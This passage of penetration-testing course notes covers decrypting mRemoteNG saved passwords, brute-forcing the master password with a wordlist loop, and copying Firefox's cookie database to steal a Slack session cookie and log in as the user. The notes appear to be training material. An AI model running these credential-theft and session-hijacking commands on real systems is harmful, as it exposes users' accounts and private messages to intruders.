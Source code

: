 #### Decrypt the Password with mremoteng_decrypt
```Shell
mRemoteNG-Decrypt.py -s "s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ="
```
If there's a master password and we know it, we can then use the option `-p` with the custom master password to also decrypt the password.

#### Decrypt the Password with mremoteng_decrypt and a Custom Password
```Shell
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin
```

#### For Loop to Crack the Master Password with mremoteng_decrypt


```Shell
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
```

### Abusing Cookies to Get Access to IM Clients
If the user is using any form of multi-factor authentication, or we can't get the user's plaintext credentials, we can try to steal the user's cookies to log in to the cloud-based client.

#### Cookie Extraction from Firefox
Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each `user's APPDATA directory %APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`. 

#### Copy Firefox Cookies Database
```PowerShell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```
We can copy the file to our machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

#### Extract Slack Cookie from Firefox Cookies Database
```Shell
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```
Use any browser extension to add the cookie to our browser. e.g., Firefox and the extension . 
![[cookie-editor.png]]
Once you have saved the cookie, you can refresh the page and see that you are logged in as the user. We may get a prompt for credentials or other types of authentication information; we can repeat the above process and replace the cookie `d` with the same value we used to gain access the first time on any website that asks us for information or credentials.

Once we complete this process for every website where we get a prompt, we need to refresh the browser, click on` Launch Slack` and use Slack in the browser. 

